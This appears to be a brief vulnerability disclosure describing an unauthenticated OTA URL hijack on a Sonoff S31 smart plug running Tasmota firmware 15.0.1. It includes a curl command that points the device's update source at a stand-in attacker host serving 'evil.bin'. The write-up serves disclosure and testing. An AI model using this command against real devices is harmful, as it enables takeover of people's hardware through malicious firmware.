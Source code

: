#  OTA URL Hijack

## 📋 Summary
The Sonoff S31 smart plug running Tasmota firmware version 15.0.1 was found to accept an unauthenticated command to set a new firmware update source (OTA URL). This allows an attacker to redirect the device to download firmware from a malicious server.

## Command Used
```bash
curl "http://192.168.8.214/cm?cmnd=OtaUrl%20http://attacker.com/evil.bin"
```
